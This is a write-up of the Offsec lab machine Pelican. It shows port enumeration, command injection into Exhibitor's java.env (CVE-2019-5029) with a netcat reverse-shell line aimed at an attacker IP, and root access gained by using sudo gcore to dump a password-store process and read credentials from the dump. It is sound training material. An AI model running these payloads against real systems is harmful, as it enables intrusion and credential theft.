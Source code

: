```yaml
---
title: Pelican
date: 2023-19-15 09:45:47 +07:00
modified: 2023-19-15 09:45:47 +07:00
tags: [ Pelican, Gcore, Exhibitor, Zookeeper, CVE-2019-5029, Linux, OSCP, Writeup]
description: Write Up for Offsec Machine Pelican
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/offsecbanner.jpeg)



<img src="https://photos.squarezero.dev/file/abir-images/htbasset/offseclogo.jpg" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Pelican</font>

​		11<sup>th</sup> October 2020

​		Machine Author(s): [Offsec]

​		

### Description:

Let's hope to see one at the zoo.

### Difficulty:

`Intermediate`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 192.168.196.98`

`nmap -sC -sV -p21,23,80 192.168.196.98 -oA ./nmap/pelican`

|Ports|Service
|22| ssh OpenSSH 7.9p1 Debian
|139| netbios-ssn Samba smbd 3.X - 4.X
|445| 563cafdc3028 Samba smbd 4.9.5-Debian
|631| ipp CUPS 2.2
|2181| zookeeper Zookeeper 3.4.6-1569965
|2222| ssh OpenSSH 7.9p1 Debian
|8080| HTTP Jetty 1.0
|8081| HTTP nginx 1.14.2

![](https://photos.squarezero.dev/file/abir-images/Pelican/1.png)

I have checked SMB share where 2 shares are listed but no access to them.

`smbmap -H 192.168.196.98`

![](https://photos.squarezero.dev/file/abir-images/Pelican/2.png)

# Foothold

I checked checked port 8081 which redirected me to port 8080.
Here I found Exhibitor for ZooKeeper.

![](https://photos.squarezero.dev/file/abir-images/Pelican/3.png)

I looked for known exploits and found [CVE-2019-5029](https://www.exploit-db.com/exploits/48654)

![](https://photos.squarezero.dev/file/abir-images/Pelican/4.png)

It's explained that as Exhibitor have any kind of authenticator we can execute Code via java.env.

First, we have to turn on Editing next we can execute commands using `$()`.

After that we Click Commit > All At Once > OK.

`$(/bin/nc -e /bin/sh 192.168.45.177 4444 &)`

![](https://photos.squarezero.dev/file/abir-images/Pelican/5.png)

It takes 30 sec for it to execute and we get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Pelican/6.png)

# Privilege Escalation

Let's get a proper shell. We can run the commands in the following order.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + z
reset
stty raw -echo; fg
stty rows 54
stty columns 141
export TERM=screen
```
We check what can Charles run as sudo and we find its [gcore]().

`sudo -l`

![](https://photos.squarezero.dev/file/abir-images/Pelican/7.png)

According to [GTFObin](https://gtfobins.github.io/gtfobins/gcore/) using gcore we can dump process and read information.

I also looked for SUID binaries and found [password-store]().

`find / -perm -u=s -type f 2>/dev/null`

![](https://photos.squarezero.dev/file/abir-images/Pelican/8.png)

Let's look for PID for password-store

`ps -aux | grep password-store`

![](https://photos.squarezero.dev/file/abir-images/Pelican/9.png)

We can now drop the process using gcore.

`sudo /usr/bin/gcore 493`

![](https://photos.squarezero.dev/file/abir-images/Pelican/10.png)

Inside the file, we can find the password of root.

![](https://photos.squarezero.dev/file/abir-images/Pelican/11.png)

Now we can login with the password and get the proof.txt.

![](https://photos.squarezero.dev/file/abir-images/Pelican/12.png)